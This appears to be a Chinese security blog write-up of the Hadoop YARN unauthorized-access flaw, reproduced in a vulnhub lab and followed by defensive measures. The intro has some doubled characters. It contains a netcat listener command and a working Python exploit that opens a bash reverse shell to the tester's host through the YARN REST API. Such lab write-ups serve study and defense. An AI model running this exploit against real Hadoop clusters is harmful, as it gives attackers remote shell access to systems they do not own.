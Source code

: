 ```yaml
---
title: Hadoop未授权访问漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- Hadoop
- 未授权访问
abbrlink: 59457
date: 2020-05-26 10:14:47
keywords:
summary:
img:
password:
---
```



#### 漏洞简介以及危害
Hadoop是一个由Apache基金会所开发的分布式系统基础架构,由于服务器器直接在开放了了
Hadoop 机器器 HDFS 的 50070 web 端口及部分默认服务口口,黑客可以通过命令行操作多个目录下
的数据,如进行删除,下载,目录浏览甚至命令行行等操作,产生极大的危害。



#### 环境
vulnhub



#### 测试
启动环境
```bash
docker-compose up -d
```

访问
```
http://192.168.0.100:8088/cluster
```
![](http://image.xpshuai.cn/Hadoop.png)


**通过REST API命令执行**
利用过程：
在本地监听端口 > 创建Application > 调用Submit Application API提交
1.本机监听
```bash
nc -lvvp 8888
```

2.直接本机执行EXP：`python exp.py`
```python
import requests
target = 'http://192.168.0.100:8088/'
lhost = '192.168.0.105' # put your local host ip here, and listen at port 8888
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
'application-id': app_id,
'application-name': 'get-shell','am-container-spec': {
'commands': {
'command': '/bin/bash -i >& /dev/tcp/%s/8888 0>&1' % lhost,
},
},
'application-type': 'YARN',
}
requests.post(url, json=data)

```

3.反弹shell成功
![](http://image.xpshuai.cn/Hadoop_shell.png)


#### 防御手段
- 如无必要, 关闭 Hadoop Web 管理⻚面。
- 开启身份验证 ,防止未经授权用户访问。
- 设置“安全组”访问控制策略,将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访包括 50070 以及 WebUI 等相关端口。











